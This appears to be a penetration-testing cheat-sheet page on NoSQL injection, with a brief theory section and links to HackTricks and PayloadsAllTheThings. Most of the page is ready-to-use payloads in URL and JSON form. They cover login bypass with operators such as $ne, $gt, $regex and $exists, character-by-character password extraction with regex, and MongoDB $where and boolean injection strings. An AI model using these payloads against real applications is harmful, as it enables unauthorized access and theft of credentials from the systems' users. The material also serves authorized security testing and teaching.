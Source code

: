 # NoSQL Injection

## Theory 

NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Practice 

### Authentication Bypass 

Using not equal ($ne) or greater ($gt) we can try to bypass authentication
{% tabs %}

{% tab title="URL" %}
```
username[$ne]=toto&password[$ne]=toto          #Not Equal
username[$regex]=.*&password[$regex]=.*        #Regex
username[$exists]=true&password[$exists]=true  #If Exist
username[$ne]=admin&password[$gt]=0            #Greater
```
{% endtab %}

{% tab title="JSON" %}
```
{"username": {"$ne": null}, "password": {"$ne": null} }             #Not Equal
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }           #Not Equal
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }   #greater
```
{% endtab %}

{% endtabs %}


### Extract data
{% tabs %}
{% tab title="URL" %}
We can use regex to find the lenght of a value
```
username[$regex]=.{25}&pass[$ne]=1
```

We can use regex to extract informations.
```
username[$eq]=admin&password[$regex]=^p
username[$eq]=admin&password[$regex]=^pa
username[$eq]=admin&password[$regex]=^pas

username[$ne]=toto&password[$regex]=^p
username[$ne]=toto&password[$regex]=^pa
username[$ne]=toto&password[$regex]=^pas
```
We can use `$nin` (not in) if you don't want to match with some values.
```
#<Matches non of the values of the array> (not test and not admin)
username[$nin][admin]=admin&username[$nin][test]=test&password[$regex]=^p
```
{% endtab %}

{% tab title="JSON" %}
We can use regex to find the lenght of a value
```
{"username": {"$eq": "admin"}, "password": {"$regex": ".{25}" }}
```

We can use regex to extract informations.
```
{"username": {"$eq": "admin"}, "password": {"$regex": "^p" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^pa" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^pas" }}
```
We can use `$nin` (not in) if you don't want to match with some values.
```
#<Matches non of the values of the array> (not test and not admin)
{"username":{"$nin":["admin", "test"]}, "username":{"$regex": "^user" } ,"password":{"$ne":"1"}} 
```
{% endtab %}

{% endtabs %}

### MangoDB Injection
{% tabs %}
{% tab title="Payloads" %}
You may try to make boolean based injection on MongoDB with following payloads
```
, $where: '1 == 1'
$where: '1 == 1'
' || 1==1//
' || 1==1%00
```
{% endtab %}

{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#extract-length-information" %}